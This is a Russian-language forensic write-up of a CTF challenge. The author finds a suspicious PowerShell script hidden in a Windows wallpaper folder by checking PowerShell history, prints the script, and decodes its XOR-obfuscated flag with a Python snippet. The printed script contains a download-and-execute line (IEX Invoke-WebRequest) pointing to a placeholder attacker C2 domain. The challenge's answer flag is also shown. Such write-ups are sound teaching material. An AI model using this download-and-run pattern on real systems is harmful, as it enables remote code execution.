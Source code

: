 #forensic #writeup 

> Используйте виртуальную машину из Hourglass, чтобы найти второй флаг в системе!

Продолжая работу с виртуальной машиной из Hourglass, мы видим, что большинство журналов либо стерты, либо неинтересны, либо я не смог их найти, и у меня проблема с навыками...

Я проверяю историю Powershell с помощью следующей команды: `get-content C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` и появляются некоторые записи, одна строка представляет особый интерес.

`Set-Alias -Name UpdateSystem -Value "C:\Windows\Web\Wallpaper\Theme2\update.ps1"`

Файл PS1 ..? Внутри _обоев ..?_ Если это не кричит о вредоносном ПО, я не знаю, что будет...

При чтении файла PS1 нам выдаются следующие данные:

```ps1
$String_Key = 'W0wMadeitthisfar'

$NewValue = '$(' + (([int[]][char[]]$String | ForEach-Object { "[char]$($_)" }) -join '+') + ')'

$chars = 34, 95, 17, 57, 2, 16, 3, 18, 68, 16, 12, 54, 4, 82, 24, 45, 35, 0, 40, 63, 20, 10, 58, 25, 3, 65, 0, 20

$keyAscii = $String_Key.ToCharArray() | ForEach-Object { [int][char]$_ }

$resultArray = $chars -bxor $keyAscii

IEX (Invoke-WebRequest -Uri 'https://somec2attackerdomain.com/chrome.exe' -UseBasicParsing).Content
```

Глядя на данные, основной аспект, представляющий интерес, - это `$keyAscii` который использует `XOR` with `$chars` и `$keyAscii`.

`$keyAscii` просто `$String_Key` разделен на шестнадцатеричные символы. Поэтому нам просто нужно сопоставить их друг с другом.

В итоге я написал простой скрипт на Python, чтобы сделать это немного быстрее, поскольку Powershell отказывался выполнять XOR.

```python
x="34 95 17 57 2 16 3 18 68 16 12 54 4 82 24 45 35 0 40 63 20 10 58 25 3 65 0 20".split(' ')
y="87 48 119 77 97 100 101 105 116 116 104 105 115 102 97 114".split(' ')

flag=""
c=0
for n in range(len(x)):
    if c > len(y)-1:
        c=0
    flag+=chr(int(x[n])^int(y[c]))
    c+=1
print(flag)
```

```
$ python3 xor.py
uoftctf{0dd_w4y_t0_run_pw5h}
```